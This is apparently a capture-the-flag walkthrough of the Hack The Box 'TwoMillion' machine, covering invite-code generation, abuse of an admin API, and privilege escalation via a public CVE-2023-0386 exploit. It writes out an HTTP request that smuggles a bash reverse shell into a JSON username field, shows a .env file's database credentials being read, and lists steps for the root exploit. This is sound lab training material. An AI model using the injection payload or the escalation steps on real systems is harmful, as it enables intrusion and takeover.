










This box's foothold is what you needed to do to get access to hackthebox back in the day.
This is what the web page looks like(http://2million.htb/) we do have to add this to /etc/hosts

The login page requires a login which we do not have
This site has a java script function that we can exploit

The output is in rot13 and when we decode it we get
In order to generate the invite code, make a POST request to /api/v1/invite/generate
We make a post request and get the invite

http://2million.htb/register

The only link we can access is http://2million.htb/home/access and we can download a few things which shows us theres an API which we can use to leak all the APIs and how they work.

Using the admin/settings/update API we can turn our user into an admin. It took trial and error but we eventually get the proper format to change our user.

Then we can use the other API to verify if we are an admin or not, which at first we werent. But changing “is admin” to 1 makes us an admin.

Before we couldn't access the POST /api/v1/admin/vpn/generate API but now we can. I imagine we can use this to obtain user somehow.
I had to cheat on the next part but you can inject into the API above. I couldnt get command injection so I watched ippsecs video on it.
POST /api/v1/admin/vpn/generate HTTP/1.1Host: 2million.htbUser-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateConnection: closeCookie: PHPSESSID=m93nps0q0d4hvu6rv0md616gv8Upgrade-Insecure-Requests: 1Content-Type: application/jsonContent-Length: 46
{"username":"Fsociety$(bash -c 'bash -i >& /dev/tcp/10.10.14.20/9999 0>&1')"

We have creds for the admin user here and we can ssh in
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
We can use https://github.com/sxlmnwb/CVE-2023-0386 to priv esc to root
wget this file on kali machine, zip it and download it on box
unzip file
type make to make all the files needed
start two ssh sessions
first session we type ./fuse ./ovlcap/lower ./gc
second session we typ ./exp
first

second

we are root